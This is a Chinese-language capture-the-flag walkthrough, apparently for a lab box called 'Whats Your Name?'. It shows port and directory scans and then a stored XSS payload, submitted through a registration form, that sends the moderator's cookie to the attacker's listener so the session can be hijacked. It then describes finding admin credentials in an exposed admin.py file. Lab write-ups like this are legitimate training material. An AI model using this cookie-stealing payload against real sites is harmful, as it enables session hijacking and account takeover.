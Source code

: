 # Whats Your Name?

端口扫描

```shell
sudo nmap --min-rate 10000 -p- 10.10.9.65

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8081/tcp open  blackice-icecap
```

详细端口扫描

```shell
sudo nmap -sT -sV -sC -O -p22,80,8081 10.10.9.65

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 1a:4f:b4:cf:87:ca:59:4b:f7:2d:58:7f:55:a1:75:fb (RSA)
|   256 a0:75:03:12:dc:5d:55:29:1a:2a:ba:a6:11:4d:8d:20 (ECDSA)
|_  256 4f:7e:8c:e8:7f:be:d4:16:90:1f:33:ea:f9:ee:b8:4c (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Welcome
|_Requested resource was /public/html/
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

进入http://10.10.9.65:80网页

![image-20250207194834937](C:\Users\杨力\AppData\Roaming\Typora\typora-user-images\image-20250207194834937.png)

看到一个register，点击进入

![image-20250207194957416](C:\Users\杨力\AppData\Roaming\Typora\typora-user-images\image-20250207194957416.png)

随便填写资料后点击注册

![image-20250207195117293](C:\Users\杨力\AppData\Roaming\Typora\typora-user-images\image-20250207195117293.png)

注册成功

![image-20250207195230527](C:\Users\杨力\AppData\Roaming\Typora\typora-user-images\image-20250207195230527.png)

但登录的时候却告诉我们用户未经过验证

看到注册页面有这样一句话

You can now pre-register! Your details will be reviewed by the site moderator.

我们的注册信息会经过管理员的审核

也就是说我们的信息会展示在管理员的页面上，那么我们就可以尝试获取管理员的cookie

在注册信息中添加如下js代码

```javascript
<script>var i=new Image; i.src='http://10.11.67.252:4444/?'+document.cookie;</script>

var i = new Image;
创建一个 Image 对象，但不会将其添加到页面中。
Image 对象可以像 <img> 标签一样发送 HTTP 请求。

i.src = 'http://<IP>:<PORT>/?' + document.cookie;
设置图片的 src 地址，这个地址指向攻击者控制的服务器（http://<IP>:<PORT>/）。
document.cookie 获取当前网站的 Cookie，并将其拼接到 URL 中。
当浏览器尝试加载这张“图片”时，实际上会向攻击者服务器发送一个包含受害者 Cookie 的 HTTP 请求。
```

并搭建一个临时服务器

```
python -m http.server 4444
```

再次提交后，等待一会就可以拿到管理员的cookie

```
10.10.9.65 - - [07/Feb/2025 18:32:03] "GET /?PHPSESSID=aukqjdvtfnlie73ltgmf0nv9tm HTTP/1.1" 200 -
```

替换之后就进入到了管理员页面了

在进入到进入http://10.10.9.65:8081网页

直接打开看不到任何信息

进行目录扫描

```shell
sudo dirsearch -u 10.10.9.65:8081

301 -  321B  - /__pycache__  ->  http://10.10.9.65:8081/__pycache__/
200 -    5KB - /admin.py                                         
200 -  634B  - /assets/                                          
301 -  316B  - /assets  ->  http://10.10.9.65:8081/assets/       
302 -    0B  - /chat.php  ->  login.php                          
200 -    0B  - /db.php                                           
301 -  320B  - /javascript  ->  http://10.10.9.65:8081/javascript/
200 -  960B  - /login.php                                        
302 -    0B  - /logout.php  ->  login.php                        
200 -    0B  - /logs.txt                                         
301 -  320B  - /phpmyadmin  ->  http://10.10.9.65:8081/phpmyadmin/
200 -    3KB - /phpmyadmin/doc/html/index.html                   
200 -    3KB - /phpmyadmin/index.php                             
200 -    3KB - /phpmyadmin/
302 -    0B  - /profile.php  ->  login.php                                                       
200 -   96B  - /setup.php
```

找到了登录页面/login.php，同时发现了一个文件admin.py，下载下来后直接接找的到了管理员的登录用户名和密码

之后直接登录就进入到管理员页面了